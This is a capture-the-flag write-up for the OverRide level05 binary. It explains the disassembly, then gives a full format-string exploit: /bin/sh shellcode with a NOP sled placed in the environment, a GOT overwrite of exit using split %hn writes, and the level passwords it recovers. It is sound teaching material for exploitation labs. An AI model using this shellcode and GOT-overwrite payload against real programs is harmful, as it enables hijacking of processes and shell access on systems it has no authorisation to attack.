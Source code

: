 [README](../README.md)
# Level05
previous flag: `3v8QLcN5SAhPaZZfEasfmXdwyR59ktDEMAwHF3aN`

## disas main
- stack frame + align + prepare buffer to read input in <+49> from stdin using fgets.
```
(gdb) x/s 0x80497f0
0x80497f0 <stdin@@GLIBC_2.0>:	 ""

```
- from <+65> to <+186> the input is processed within a loop that checks each character of the input
- index variable for loop is initialized (at 0) in: `0x0804847a <+54>:	movl   $0x0,0x8c(%esp)`
- If the character is within the ASCII range of uppercase letters (A-Z), it converts it to lowercase by toggling the 5th bit (hexadecimal value 0x20), executing these steps
   - mov %eax, %edx: This copies the character value from %eax to %edx.
   - xor $0x20, %edx: This XOR operation toggles the 5th bit of the character, effectively converting an uppercase letter to lowercase (assuming ASCII encoding).
   - mov %dl, (%eax): This stores the lowercase character back into the string buffer at the same location.
- The loop increments the index (0x8c(%esp)) and continues until the end of the string.
- in <+175> scas instruction is called to calculate the length of the modified string
- <+184>: index in %eax is compared with string length stored in %ebx.
- <+186>: jump back to <+67> at the beginning of loop if compariso,n is not true
- otherwise the modified string is printed with printf

```
0x08048485 <+65>:	jmp    0x80484d3 <main+143>
   0x08048487 <+67>:	lea    0x28(%esp),%eax
   0x0804848b <+71>:	add    0x8c(%esp),%eax
   0x08048492 <+78>:	movzbl (%eax),%eax
   0x08048495 <+81>:	cmp    $0x40,%al
   0x08048497 <+83>:	jle    0x80484cb <main+135>
   0x08048499 <+85>:	lea    0x28(%esp),%eax
   0x0804849d <+89>:	add    0x8c(%esp),%eax
   0x080484a4 <+96>:	movzbl (%eax),%eax
   0x080484a7 <+99>:	cmp    $0x5a,%al
   0x080484a9 <+101>:	jg     0x80484cb <main+135>
   0x080484ab <+103>:	lea    0x28(%esp),%eax
   0x080484af <+107>:	add    0x8c(%esp),%eax
   0x080484b6 <+114>:	movzbl (%eax),%eax
   0x080484b9 <+117>:	mov    %eax,%edx
   0x080484bb <+119>:	xor    $0x20,%edx
   0x080484be <+122>:	lea    0x28(%esp),%eax
   0x080484c2 <+126>:	add    0x8c(%esp),%eax
   0x080484c9 <+133>:	mov    %dl,(%eax)
   0x080484cb <+135>:	addl   $0x1,0x8c(%esp)
   0x080484d3 <+143>:	mov    0x8c(%esp),%ebx
   0x080484da <+150>:	lea    0x28(%esp),%eax
   0x080484de <+154>:	movl   $0xffffffff,0x1c(%esp)
   0x080484e6 <+162>:	mov    %eax,%edx
   0x080484e8 <+164>:	mov    $0x0,%eax
   0x080484ed <+169>:	mov    0x1c(%esp),%ecx
   0x080484f1 <+173>:	mov    %edx,%edi
   0x080484f3 <+175>:	repnz scas %es:(%edi),%al
   0x080484f5 <+177>:	mov    %ecx,%eax
   0x080484f7 <+179>:	not    %eax
   0x080484f9 <+181>:	sub    $0x1,%eax
   0x080484fc <+184>:	cmp    %eax,%ebx
   0x080484fe <+186>:	jb     0x8048487 <main+67>

```

## vulnerability
- printf is called right bfore exiting. the main doesn't return. that means that we can replace the GOT address of exit with our shellcode exploiting the format string vulnerability

## solution

- we store the shellcode we want to execute instead of exit in the env with a lot of nope (\x90, the shellcode preceded by a sequence of NOP instructions creates a unique pattern in memory that can be easily identified) before:
`export SHELLCODE=$(python -c 'print "\x90"*1000+"\xeb\x1f\x5e\x89\x76\x08\x31\xc0\x88\x46\x07\x89\x46\x0c\xb0\x0b\x89\xf3\x8d\x4e\x08\x8d\x56\x0c\xcd\x80\x31\xdb\x89\xd8\x40\xcd\x80\xe8\xdc\xff\xff\xff/bin/sh"')`
- we find the address where the shellcode has been stored:
```
(gdb) b *main
Breakpoint 1 at 0x8048444
(gdb) run
Starting program: /home/users/level05/level05 

Breakpoint 1, 0x08048444 in main ()
(gdb) x/200s environ
```
this give us a list of 200 memory case contents starting from the address of the environment variable array for the program level05 (yes it is the same pointer passed as the third argument to main function in c => char *envp[])
=> when we find something like (addresses vary) `0xffffd4c9:	 "SHELLCODE=\220\220\220\220\220\220\220\220\220\220\220\220\220\ ` we are in front of the nop sequence :  \220 is the octal representation of the decimal value 144. The hexadecimal representation of 144 is 0x90. In the x86 assembly language, the opcode 0x90 corresponds to the nop instruction
=> below we find something like: `0xffffd8b1:	 "\220\220\220\220\220\220\220\220\220\220\353\037^\211v\b1\300\210F\a\211F\f\260\v\211\363\215N\b\215V\f̀1ۉ\330@̀\350\334\377\377\377/bin/sh"`
- we better check around the address `0xffffd4c9`:
```
(gdb) x/20i 0xffffd8b1
   0xffffd8b1:	nop
   0xffffd8b2:	nop
   0xffffd8b3:	nop
   0xffffd8b4:	nop
   0xffffd8b5:	nop
   0xffffd8b6:	nop
   0xffffd8b7:	nop
   0xffffd8b8:	nop
   0xffffd8b9:	nop
   0xffffd8ba:	nop
   0xffffd8bb:	jmp    0xffffd8dc
   0xffffd8bd:	pop    %esi
   0xffffd8be:	mov    %esi,0x8(%esi)
   0xffffd8c1:	xor    %eax,%eax
   0xffffd8c3:	mov    %al,0x7(%esi)
   0xffffd8c6:	mov    %eax,0xc(%esi)
   0xffffd8c9:	mov    $0xb,%al
   0xffffd8cb:	mov    %esi,%ebx
   0xffffd8cd:	lea    0x8(%esi),%ecx
   0xffffd8d0:	lea    0xc(%esi),%edx
```
- so exact address of shellcode is 0xffffd8bb
- we find the offset of printf where the user input is store to prepare the format string attack
```
python -c "print 'aaaa' + ' %x ' * 16" | ./level05
aaaa 64  f7fcfac0  f7ec3af9  ffffd2bf  ffffd2be  0  ffffffff  ffffd344  f7fdb000  61616161  20782520  20782520  20782520  20782520  20782520  20782520 
```
=> arg in pos 10
- we find the GOT address of exit:
```
level05@OverRide:~$ objdump -R ./level05

./level05:     file format elf32-i386

DYNAMIC RELOCATION RECORDS
OFFSET   TYPE              VALUE 
080497c4 R_386_GLOB_DAT    __gmon_start__
080497f0 R_386_COPY        stdin
080497d4 R_386_JUMP_SLOT   printf
080497d8 R_386_JUMP_SLOT   fgets
080497dc R_386_JUMP_SLOT   __gmon_start__
080497e0 R_386_JUMP_SLOT   exit
080497e4 R_386_JUMP_SLOT   __libc_start_main
```
- we craft the payload keeping in mind that since the shellcode is too long we can't write in decimal its whole address and we need to split in 2 parts:
```
(python -c 'print "\xe0\x97\x04\x08"+"\xe2\x97\x04\x08" + "%55475d"+"%10$hn"+"%10052d"+"%11$hn"'; cat) | ./level05
```
where:
- \xe0\x97\x04\x08 is exit GOTaddress in little endian
- \xe2\x97\x04\x08 is the memory case 2 bytes futher
- %55475d is the n.  of character that we want to write corresponding to the first part in little endian of the  address of shellcode (d8bb in 0xffffd8bb that is 55483) - 8 bytes (the 2 contiguous addresses of EXIT in GOT). 55483 - 8 = 55475
- %10$hn = we want to write the n. of character into the 10th arg from offset. The hn format specifier is used because you're writing a 16-bit value (2 bytes) to the memory address => The maximum value that can be represented by a 16-bit signed integer is 32767 (0x7FFF).
- %10052d is the result of the first part of shellcode in decimal (ffff = 65535) - the first part (55483)
- %11$hn = 11th arg, the one right after the 10th
- ; cat = is used to concatenate the output of the Python command with the input from the standard input 

```
cat /home/users/level06/.pass
h4GtNnaMs2kZFN92ymTr2DcJHAzMfzLW25Ep59mq
```






